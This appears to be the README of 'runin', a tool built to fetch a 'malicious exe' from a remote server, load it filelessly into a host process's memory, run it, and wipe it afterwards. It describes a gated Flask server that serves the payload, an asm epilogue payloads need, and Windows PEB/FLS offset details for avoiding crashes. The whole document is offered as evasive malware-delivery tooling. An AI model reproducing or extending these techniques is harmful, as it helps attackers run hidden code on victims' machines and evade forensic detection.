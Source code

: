 # runin

runin is a tool for in-memory and file-less execution of malicious exe within host exe context and wiping any leftover from memory afterwards. 
The tool accomplishes that by getting the malicious exe from a remote server using HTTPS connection, and loading the malicious exe to the host exe process context same as os loader does but after execution of the malcious exe the execution will return to the host and the malicious exe will be wiped from memory.<br/><br/>


## runin
The host process.

runin will execute any exe (except for exe that uses com objects, as there is a problem loading the com libraries before execution) within it's context, in order to an exe to return execution to runin.exe context after the desired exe was executed, the main function of the code needs to be a naked function (i.e. declare it using ```__declspec( naked ) int main(...)``` and it needs simply end with:

```
__asm {
	add esp, <size of variables defined> // clean the new stack
	leave
	ret
}
```

As seen in the example exe (make sure to compile the malicious exe with static linking option).<br/><br/>


Execution: ```runin.exe <remote_server_ip_addr>```\
runin recieves one commandline argument, the ip of the remote http server that will send the malicious exe.

IMPORTANT NOTE - runin handles the case of os accessing fibers created by the malcious exe by freeing the fibers before main function ends and returns (all this stuff is barely documented so i will not go into details, if you wish to know more contact me), it does that by accessing the peb struct FlsHighIndex value, so if you want to runin not to crash when runin exits the process normally (i.e. after our code was completed, meaning after main returns) make sure that the complete peb struct is up to date, or the offset of FlsHighIndex is correct.
up to windows 10 1903 the member FlsHighIndex was a part of the PEB structure, but it was removed from the PEB in windows 10 1903. in a build of windows after 1903 we will access the struct _RTLP_FLS_CONTEXT which resids in ntdll module. more info in the code itself.<br/><br/>

## server.py
A simple http server to send the malicious exe when a specific request is made (combiniation of user agent, url and post request and a key).

Execution: ```server.py <malicious_exe_path>```\
server.py recieves one commandline argument, the malicious exe path to distribute.
The server uses flask (install using ```pip install flask```).<br/><br/>

## RuninTestExe
Simple example exe to show the funcionality of the tool, displays a message box and then returns execution to runin.exe<br/><br/><br/>





### Fibers Info
why the fibers error happens\
https://devblogs.microsoft.com/oldnewthing/20191011-00/?p=102989
http://www.open-std.org/JTC1/SC22/WG21/docs/papers/2018/p1364r0.pdf
https://ntquery.wordpress.com/2014/03/29/anti-debug-fiber-local-storage-fls/#more-18